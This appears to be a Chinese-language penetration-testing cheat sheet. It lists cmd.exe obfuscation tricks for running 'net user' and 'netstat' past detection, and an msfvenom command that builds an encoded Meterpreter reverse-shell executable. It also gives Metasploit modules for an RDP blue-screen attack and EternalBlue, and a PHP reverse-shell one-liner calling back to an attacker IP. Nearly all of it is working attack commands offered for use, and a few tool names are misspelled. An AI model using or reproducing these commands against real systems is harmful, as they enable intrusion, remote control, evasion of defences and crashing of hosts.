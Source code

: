 ```
设置环境变量------
#cmd /c "set com3= &&set com2=user&&set com1=net &&call %com1%%com2%%com3%"
#cmd /c "set com3= /ano&&set com2=stat&&set com1=net&&call %com1%%com2%%com3%"
#cmd /c "set com3= &&set com2=user&&set com1=net &&call set final=%com1%%com2%%com3%&&call %final%"

随机大小写-------
CMd /C "sEt coM3= /ano&& SEt cOm2=stat&& seT CoM1=net&& caLl SeT fiNAl=%COm1%%cOm2%%coM3%&& cAlL %FinAl%"

逗号和分号---------
;,,CMd,; ,/C ", ;, ;sEt coM3= &&,,,SEt cOm2=user&&;;;seT CoM1=net &&, ;caLl,;,SeT fiNAl=%COm1%%cOm2%%coM3%&&; , ,cAlL, ;, ;%FinAl%"

将配对双引号添加到输入命令以混淆其最终命令行参数
;,,C^Md^,; ,^/^C^ ^ ", ( ((;,( ;(s^Et ^ ^ co^M3=^^ /^^an^o)) )))&&,,(,S^Et^ ^ ^cO^m2=^s^^ta^^t)&&(;(;;s^eT^ ^ C^oM1^=^n^^e””t) ) &&, (( ;c^aLl,^;,S^e^T ^ ^ fi^NAl^=^%COm1^%%c^Om2%^%c^oM3^%))&&; (,,(c^AlL^, ;,^ ;%Fi^nAl^%))"

使用cmd.exe的/ V：ON参数启用延迟环境变量扩展
;,,C^Md^,; /V:ON,^/^C^ ^ ", ( ((;,( ;(s^Et ^ ^ co^M3=^^ /^^an^o)) )))&&,,(,S^Et^ ^ ^cO^m2=^s^^ta^^t)&&(;(;;s^eT^ ^ C^oM1^=^n^^””e””t) ) &&set quotes=””&&, (( ;c^aLl,^;,S^e^T ^ ^ fi^NAl^=^%COm1^%%c^Om2%^%c^oM3^%))&&; (, ,(c^AlL^, ;,^ ;%Fi^nAl^%) )"

```

### msf命令
```
生成exe文件
msfveom -p windows/metepreter/reverse_tcp -a x86 --platform windows LHOST=192.168.43.63 LPORT=4444 -e x86/shikata_ga_nai -i 20 PrependMigrate=true -f exe >ma.exe

攻击3389致使蓝屏：
扫描
use auxiliary/dos/windows/rdp/ms12_020_maxchannelids

永恒之蓝漏洞拿cmd：
扫描
use auxiliary/scanner/smb/smb_ms17_010 
攻击
use exploit/windows/smb/ms17_010_eternalblue 	攻击win7-2003
use exploit/windows/smb/ms17_010_eternalblue_win8 	攻击win8
```

## shell反弹
> **反弹shell基本语句** 

### php反弹shell
```
攻击机监听
nc -lvvp 4444

要求目标机器有php然后执行
php -r '$sock=fsockopen("192.168.23.88",4444);exec("/bin/sh -i <&3 >&3 2>&3");'

```
